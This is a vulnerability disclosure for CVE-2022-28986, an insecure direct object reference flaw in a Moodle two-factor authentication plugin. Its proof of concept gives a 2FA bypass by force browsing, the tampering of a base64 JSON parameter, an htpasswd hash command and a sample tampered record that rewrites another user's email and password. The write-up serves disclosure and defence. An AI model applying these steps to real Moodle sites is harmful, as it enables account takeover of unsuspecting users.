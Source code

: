 # CVE-2022-28986

A Insecure direct object references (IDOR) vulnerability in "Simple 2FA Plugin for Moodle" by LMS Doctor

Vulnerability Details

Risk : Critical

Vendor: [LMS Doctor - Simple 2 Factor Authentication Plugin For Moodle](https://www.lmsdoctor.com/simple-2-factor-authentication-plugin-for-moodle)

Disclosed by: [Flaviu Popescu](https://flaviu.io)

Description:
Insecure direct object references (IDOR) vulnerability in The Simple 2FA Plugin for Moodle by "LMS Doctor". Allows remote attackers to update sensitive records such as email, password and phone number of other user accounts.

Proof of concept:

Initial login process using a self-registered account (dionach.tester):

POST /login/index.php

![image](https://user-images.githubusercontent.com/62330554/167461688-ded15d94-acfc-4ee7-9573-2376fcbaf47e.png)

Once the 2FA prompt is shown, the attacker force browses to the following URL instead of providing the 2FA code.

POST /auth/simple2fa/profile.php

![image](https://user-images.githubusercontent.com/62330554/174032083-fababc6e-0c8c-4ce7-9cca-e3b3da45096f.png)

This request is captured in Burp Suite:
![image](https://user-images.githubusercontent.com/62330554/167461803-60ac4d45-c2ae-464f-8af5-083d535c6504.png)

The parameter "u" contains a base64 encoded string. The string is decoded, which reveals data in JSON format as shown below:

![image](https://user-images.githubusercontent.com/62330554/167466721-0787e9af-9914-4c26-b7f6-630d87ffd639.png)

The attacker tampers with the JSON data, modifying the id, e-mail, password, and the name. The JSON data is encoded back into base64, updated in Burp Suite, and forwarded to the server.

New hash generation for the password: 


```bash
$ htpasswd -bnBC 10 "" pwn3d! | tr -d ':\n'\n
$2y$10$g/U56Hj5kb.C1mOoO6MR.Zrv1c4ml04z97CC.BdJPsMl.6LM4HVy                     
```

Snipped of tampered data:

```json
{"id":"8045","auth":"email","confirmed":"1","policyagreed":"0","deleted":"0","suspended":"0","mnethostid":"1","username":"dionach.tester2","password":"$2y$10$g/U56Hj5kb.C1mOoO6MR.Zrv1c4ml04z97CC.BdJPsMl.6LM4HVy","idnumber":"","firstname":"Dio","lastname":"Nach","email":"flaviu.popescu+1337@[..]", [..]
```

Resulting in the victim's account, id 8045 (dionach.tester2) being updated as shown below:

![image](https://user-images.githubusercontent.com/62330554/167465465-3a956a50-bb9a-4174-a12e-aeb06dea2292.png)

